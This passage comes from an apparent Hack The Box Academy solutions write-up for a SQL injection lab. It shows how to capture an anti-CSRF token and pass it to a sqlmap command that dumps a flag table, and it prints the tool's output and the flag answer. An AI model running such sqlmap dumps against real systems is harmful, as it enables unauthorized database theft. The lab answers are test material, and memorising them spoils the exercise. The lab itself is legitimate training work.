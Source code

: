 ![[HTB Solutions/CPTS/z. images/0eed4c332ecad59c1907a29dd2176842_MD5.jpg]]

Students need to click on the "Submit" button, then open the Network Tab to view the request form data after selecting the `POST` request to "case8.php" that includes the `anti-CSRF` token name and value:

![[HTB Solutions/CPTS/z. images/501fda2d529798988361cac8939d8a33_MD5.jpg]]

Thus, the `sqlmap` command becomes:

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case8.php?' --data 'id=1&t0ken=UDWvZvcqUsowsv6b5MhaSojBVJjkW0DVcNKXnZ2Fjw' --csrf-token=t0ken --batch --dump
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case8.php?' --data 'id=1&t0ken=UDWvZvcqUsowsv6b5MhaSojBVJjkW0DVcNKXnZ2Fjw' --csrf-token=t0ken --batch --dump

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: testdb
Table: flag8
[1 entry]
+----+-----------------------------------+
| id | content                           |
+----+-----------------------------------+
| 1  | HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d} |
+----+-----------------------------------+
```

Answer: `HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d}`

# Bypassing Web Application Protections

## Question 2

### "What's the contents of table flag9? (Case #9)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #9" to notice that they need to exploit the `POST` parameter `id`, while accounting for the unique `uid`:
